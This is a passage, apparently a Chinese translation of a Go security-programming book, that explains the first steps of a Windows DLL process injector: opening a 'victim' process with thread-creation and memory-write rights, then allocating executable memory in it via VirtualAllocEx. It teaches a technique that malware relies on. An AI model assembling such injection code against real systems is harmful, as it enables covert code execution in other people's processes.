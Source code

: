 Listing 12-7 展示了我们的第一个实际函数，`OpenProcessHandle()`。让我们查看以下代码块并讨论其中的各种细节。

```
func OpenProcessHandle(i *Inject) error {
    ❶ var rights uint32 = PROCESS_CREATE_THREAD |
        PROCESS_QUERY_INFORMATION |
        PROCESS_VM_OPERATION |
        PROCESS_VM_WRITE |
        PROCESS_VM_READ
    ❷ var inheritHandle uint32 = 0
    ❸ var processID uint32 = i.Pid
    ❹ remoteProcHandle, _, lastErr❺ := ProcOpenProcess.Call❻(
        uintptr(rights), // DWORD dwDesiredAccess
        uintptr(inheritHandle), // BOOL  bInheritHandle
        uintptr(processID)) // DWORD dwProcessId
    if remoteProcHandle == 0 {
        return errors.Wrap(lastErr, `[!] ERROR :
 Can't Open Remote Process. Maybe running w elevated integrity?`)
    }
    i.RemoteProcHandle = remoteProcHandle
    fmt.Printf("[-] Input PID: %v\n", i.Pid)
    fmt.Printf("[-] Input DLL: %v\n", i.DllPath)
    fmt.Printf("[+] Process handle: %v\n", unsafe.Pointer(i.RemoteProcHandle))
    return nil
}
```

*Listing 12-7: 用于获取进程句柄的* OpenProcessHandle() *函数* ([/ch-12 /procInjector/winsys/inject.go](https://github.com/blackhat-go/bhg/blob/master/ch-12/procInjector/winsys/inject.go))

代码首先通过将进程访问权限分配给名为`rights`的`uint32`变量来开始❶。实际分配的值包括`PROCESS_CREATE_THREAD`，它允许我们在远程进程上创建线程。接下来是`PROCESS_QUERY_INFORMAITON`，它使我们能够通用地查询远程进程的详细信息。最后三个进程访问权限，`PROCESS_VM_OPERATION`、`PROCESS_VM_WRITE`和`PROCESS_VM_READ`，都提供了管理远程进程虚拟内存的访问权限。

下一个声明的变量`inheritHandle` ❷决定了我们的新进程句柄是否会继承现有句柄。我们传入`0`表示布尔值的假（false），因为我们希望获得一个新的进程句柄。紧随其后的是`processID` ❸变量，包含了受害进程的 PID。与此同时，我们根据 Windows API 文档协调我们的变量类型，确保我们声明的两个变量都是`uint32`类型。这种模式一直延续，直到我们通过使用`ProcOpenProcess.Call()` ❻进行系统调用为止。

`.Call()`方法消耗不定数量的`uintptr`值，如果我们查看`Call()`函数签名，实际上它会声明为`...uintptr`。此外，返回类型被指定为`uintptr` ❹和`error` ❺。另外，错误类型命名为`lastErr` ❺，你会在 Windows API 文档中找到它的引用，并且它包含了由实际调用的函数定义的返回错误值。

#### 使用 VirtualAllocEx Windows API 操作内存

现在我们有了远程进程句柄，需要一种方法在远程进程内分配虚拟内存。这是必要的，以便在写入内存之前为其预留一块内存区域并进行初始化。让我们现在来实现这一点。将 Listing 12-8 中定义的函数紧接着 Listing 12-7 中定义的函数放置。（随着我们继续操作过程注入代码，函数会一个接一个地追加。）

```
func VirtualAllocEx(i *Inject) error {
    var flAllocationType uint32 = MEM_COMMIT | MEM_RESERVE
    var flProtect uint32 = PAGE_EXECUTE_READWRITE
    lpBaseAddress, _, lastErr := ProcVirtualAllocEx.Call(
        i.RemoteProcHandle, // HANDLE hProcess
        uintptr(nullRef), // LPVOID lpAddress ❶
        uintptr(i.DLLSize), // SIZE_T dwSize
        uintptr(flAllocationType), // DWORD  flAllocationType
        // https://docs.microsoft.com/en-us/windows/desktop/Memory/memory-protection-constants
uintptr(flProtect)) // DWORD  flProtect
    if lpBaseAddress == 0 {
        return errors.Wrap(lastErr, "[!] ERROR : Can't Allocate Memory On Remote Process.")
    }
    i.Lpaddr = lpBaseAddress
    fmt.Printf("[+] Base memory address: %v\n", unsafe.Pointer(i.Lpaddr))
    return nil
}
```
